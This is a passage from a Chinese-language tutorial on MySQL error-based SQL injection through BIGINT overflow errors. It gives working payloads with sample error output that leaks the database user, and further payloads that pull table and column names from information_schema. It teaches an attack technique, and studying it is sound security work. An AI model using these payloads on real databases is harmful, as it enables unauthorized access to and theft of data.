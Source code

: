 于是我们就可以

```mysql
mysql> select 1+~(select*from(select user())x);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~((select 'root@localhost' from dual)))'
```

因为版本问题，本地mysql8并未复现成功

**2.**利用这种基于 BIGINT 溢出错误的注入手法，我们可以几乎可以使用 MySQL 中所有的数学函数，因为它们也可以进行取反，具体用法如下所示：

```mysql
mysql> select !atan((select*from(select user())a))-~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(atan((select 'root@localhost' from dual)))) - ~(0))'

mysql> select !ceil((select*from(select user())a))-~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(ceiling((select 'root@localhost' from dual)))) - ~(0))'

mysql> select !floor((select*from(select user())a))-~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(floor((select 'root@localhost' from dual)))) - ~(0))'
```

以下函数同样也可以

```ABAP
HEX
IN
FLOOR
CEIL
RAND
CEILING
TRUNCATE
TAN
SQRT
ROUND
SIGN
EXP
...
```

#### 提取数据

提取数据的方法，跟其他注入攻击手法中的一样：

1. 获取表名：

   ```mysql
   select !(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0;
   ```

2. 取得列名：

   ```mysql
   select !(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)-~0;
   ```
